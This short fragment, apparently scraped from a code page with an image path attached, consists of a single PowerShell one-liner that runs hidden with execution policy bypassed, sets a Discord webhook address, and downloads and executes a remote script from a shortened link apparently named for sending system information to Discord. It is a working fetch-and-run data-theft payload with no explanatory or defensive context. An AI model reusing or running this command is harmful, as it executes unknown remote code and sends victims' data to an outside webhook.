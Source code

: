 powershell -NoP -Ep Bypass -W H -C $dc='https://discordapp.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://is.gd/bw_info_to_dc | iex
